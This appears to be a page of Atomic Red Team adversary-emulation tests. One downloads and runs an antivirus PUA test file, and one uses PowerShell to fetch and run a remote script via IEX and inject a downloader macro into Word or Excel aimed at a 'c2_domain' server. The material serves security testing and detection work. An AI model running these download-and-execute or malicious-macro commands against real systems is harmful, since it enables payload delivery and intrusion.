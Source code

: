 
Atomic Test #8 - Potentially Unwanted Applications (PUA)
The Potentially Unwanted Applications (PUA) protection feature in antivirus software can identify and block PUAs from downloading and installing on endpoints in your network. These applications are not considered viruses, malware, or other types of threats, but might perform actions on endpoints that adversely affect their performance or use. This file is similar to EICAR test virus file, but is considered a Potentially Unwanted Application (PUA) instead of a VIRUS (i.e. not actually malicious, but is flagged as it to verify anti-pua protection).

Supported Platforms: Windows

auto_generated_guid: 02f35d62-9fdc-4a97-b899-a5d9a876d295

Inputs:
Name	Description	Type	Default Value
pua_url	url to PotentiallyUnwanted.exe	url	http://amtso.eicar.org/PotentiallyUnwanted.exe
pua_file	path to PotentiallyUnwanted.exe	path	$env:TEMP/PotentiallyUnwanted.exe
Attack Commands: Run with powershell!
Invoke-WebRequest #{pua_url} -OutFile #{pua_file}
& "#{pua_file}"
Cleanup Commands:
Stop-Process -name PotentiallyUnwanted
Remove-Item #{pua_file} -ErrorAction Ignore


Atomic Test #9 - Office Generic Payload Download
This Test uses a VBA macro to launch Powershell which will download a file from a user defined web server. Required input agruments are c2_domain and file_name Execution is handled by Invoke-MalDoc to load and execute VBA code into Excel or Word documents. Example for c2 server located at 127.0.0.1 for the file test.txt which is nested below the parent directory in the tests/my-test folder Example input args for file in root directory c2-domain = 127.0.0.1, file-name = test.txt

Supported Platforms: Windows

auto_generated_guid: 5202ee05-c420-4148-bf5e-fd7f7d24850c

Inputs:
Name	Description	Type	Default Value
macro_path	Location of file which will be converted to a VBA macro	path	PathToAtomicsFolder/T1204.002/src/test9-GenericPayloadDownload.txt
c2_domain	This required variable points to a user defined HTTP server that will host the file_name in the c2_parent_directory.	url	
c2_parent_directory	Parent directory where you have the "malicious" file on c2_domain server.		
Will default to root directory. Forward slashes are not needed at begining or ending of directory path	path		
file_name	"Malicious" file to be downloaded.		
This required file needs to be place on the user provided c2 domain			
Example file can be found at PathToAtomicsFolder/T1204.002/src/test9-example-payload.txt	string	https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/test9-example-payload.txt	
ms_product	Maldoc application Word or Excel	string	Word
Attack Commands: Run with powershell!
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macroCode = Get-Content "#{macro_path}" -Raw
$URL = "#{c2_domain}" + "/" + "#{c2_parent_directory}"
$macroCode = $macroCode -replace 'serverPath', $URL -replace 'fileName', "#{file_name}"
Invoke-MalDoc -macroCode $macroCode -officeProduct "#{ms_product}"
Cleanup Commands:
Remove-Item "C:\Users\$env:username\Desktop\#{file_name}" -ErrorAction Ignore
Dependencies: Run with powershell!
Description: Destination c2_domain name or IP address must be set to a running HTTP server.
Check Prereq Commands:
if (#{c2_domain}) (exit 0) else (exit 1)
Get Prereq Commands:
Write-Host "Destination c2 server domain name or IP address must be set and reachable for HTTP service"